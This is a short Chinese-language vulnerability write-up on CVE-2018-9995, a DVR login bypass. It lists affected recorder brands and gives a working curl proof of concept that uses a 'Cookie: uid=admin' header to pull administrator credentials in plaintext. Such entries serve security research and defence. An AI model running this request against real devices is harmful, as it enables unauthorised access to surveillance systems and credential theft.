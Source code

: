 # DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

```
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus, - Security. Never Compromise !! -
Night OWL
DVR Login
HVR Login
MDVR Login
```

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110916977.png)